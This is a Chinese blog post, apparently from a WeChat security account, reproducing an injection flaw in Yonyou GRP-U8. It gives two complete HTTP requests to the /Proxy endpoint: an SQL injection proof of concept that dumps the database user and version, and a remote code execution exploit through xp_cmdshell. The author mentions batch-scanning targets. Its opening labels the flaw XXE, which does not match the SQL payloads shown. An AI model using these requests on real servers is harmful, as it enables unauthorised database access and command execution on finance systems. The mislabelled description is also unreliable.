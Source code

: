 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0QRywDw5I85JyvhvFJZg4g)

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjcSQn373grjydSAvWcmAgI3MypEpP1VictwEP5nnfiaroylED70CH67ib3AOHMoibP5uwDnicdSCNX9Eaw/640?wx_fmt=jpeg)

用友 GRP-u8 注入 - RCE 漏洞复现

（HW 第一时间复现了，当时觉得不合适，现在才发出来）  

一、漏洞简介

用友 GRP-u8 存在 XXE 漏洞，该漏洞源于应用程序解析 XML 输入时没有进制外部实体的加载，导致可加载恶意外部文件。

二、漏洞复现  

SQL 注入 POC  

```
POST /Proxy HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=25EDA97813692F4D1FAFBB74FD7CFFE0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 371

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">select user,db_name(),host_name(),@@version</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

验证过程  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3Jj3hQ5GQQg2R5XCv5j4WkLz2QPia2CoFQlOzBAMykYX5UZqic3pNymlA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI38UlYCnYOJU6Umtd3o4iauMb9bOrTSA84audEfHgaia5icyt1Sa9XeEXSQ/640?wx_fmt=png)

批量跑了一部分（这个是 HW 期间第一时间跑的）现在估计没啥了  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3IOicD965VsbHs2coKKY8KuRic8bNn6O7I6c6QsbHcZFOVoPicdsysggIQ/640?wx_fmt=png)

Rce 注入 EXP  

```
POST /Proxy HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=25EDA97813692F4D1FAFBB74FD7CFFE0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 355

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'ipconfig'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3tZOkZNv2g8eeEjaFliaLnekZwRMTLfb8pDhGmCzm2stWEMwtZPEqmVA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3LibfCB23cLIydNYFACOZz1iaTUeEV7ofvXH9ZH7Y4bkKeGZmsQD0buQw/640?wx_fmt=png)

参考：  

https://www.cnblogs.com/0day-li/p/13652897.html

https://www.uedbox.com/post/14953/

https://www.cnblogs.com/Yang34/p/13653960.html

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)